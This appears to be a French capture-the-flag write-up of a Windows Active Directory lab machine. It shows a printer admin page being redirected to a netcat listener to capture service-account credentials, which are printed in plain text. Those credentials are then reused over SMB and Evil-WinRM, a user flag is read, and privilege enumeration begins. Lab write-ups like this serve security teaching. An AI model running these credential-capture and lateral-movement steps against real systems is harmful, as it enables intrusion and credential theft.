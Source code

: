 ```
```

En voyant le port `88` j'ai plus de chance d'etre dans un AD

- Un port `80` qui heberge un site internet
- SMB disponible dans les ports `135` `445`
- Le Domain `return.local` et le DC `PRINTER.return.local`

Je visite le site et je vois un site d'imprimante et dans le `settings` j'ai un  username et un mot de passe mais faudrais l'afficher

Dans le server address je trouve `printer.return.local` donc je vais le modifier et mettre mon IP puis j'ouvre un `nc`

```
└─# nc -lnvp 389
listening on [any] 389 ...
connect to [10.10.16.27] from (UNKNOWN) [10.129.95.241] 64714
0*`%return\svc-printer�
                       1edFg43012!!
```
J'ai un user et un mot de passe, essayons voir avec le smb

```
└─# nxc smb $ip -u 'svc-printer' -p '1edFg43012!!' -x "whoami"
SMB         10.129.95.241   445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.129.95.241   445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
```

Alors je vais voir avec le psexec ou le `winrm`

```
└─# nc -nv $ip 5985                                           
(UNKNOWN) [10.129.95.241] 5985 (?) open
```

```
    Directory: C:\Users\svc-printer\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         3/3/2024   5:22 PM             34 user.txt


ty*Evil-WinRM* PS C:\Users\svc-printer\Desktop> type user.txt
b76e02de68e31d70efeabace88768799
```

## Privilege Escalation
Pour l'escalation je vais commencer par checker le `whoami /priv`

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
```
